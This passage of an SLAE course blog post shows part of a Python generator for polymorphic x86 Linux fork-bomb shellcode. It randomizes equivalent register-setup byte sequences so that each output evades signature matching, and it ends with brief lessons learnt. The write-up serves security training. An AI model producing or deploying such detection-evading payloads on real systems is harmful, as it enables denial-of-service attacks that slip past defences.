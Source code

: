     init_ecx = ["\\x31\\xc9", "\\xc4\\xe2\\x70\\xf2\\xc9", "\\x6a\\x??\\x59\\x80\\xe9\\x??", "\\x83\\xc1\\x??", "\\x83\\xe9\\x??", "\\x6a\\x??", "\\x59"];
    shuffle(init_ecx)
    par = randint(1, 127)
    ecx = "".join(init_ecx[0])
    ecx = ecx.replace("??", str(format(par, '02x')))

    init_edx = ["\\x31\\xd2", "\\xc4\\xe2\\x68\\xf2\\xd2", "\\x6a\\x??\\x5a\\x80\\xea\\x??", "\\x83\\xc2\\x??", "\\x83\\xea\\x??", "\\x6a\\x??", "\\x5a"];

    shuffle(init_edx)
    par = randint(1, 127)
    edx = "".join(init_edx[0])
    edx = edx.replace("??", str(format(par, '02x')))

    init_blk = [eax, ebx, ecx, edx]
    shuffle(init_blk);
    setup_blk=["\\xb0\\x02" ];

    jmp_adj = format((255 - byte_len(init_blk) - byte_len(setup_blk) - 3), '02x')
    shellcode="".join(init_blk)+"".join(setup_blk)+"\\xcd\\x80\\xeb\\x"+jmp_adj;

    return shellcode
{%endhighlight%}

{%asciicast 198409 %}

## Lessons learnt

This assignment was the most complex one in terms of solutions. Creating a
single poliymorphic variation was easy, but generating some arbitrary
shellcodes requires a lot of attentions in not mangling program logic flow.

Another important thing I learnt in this assignment is that, GDB is one of my
best friends and the .gdbinit file with the hook-stop function is one of the
customization you have to care most of it.

## SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1217
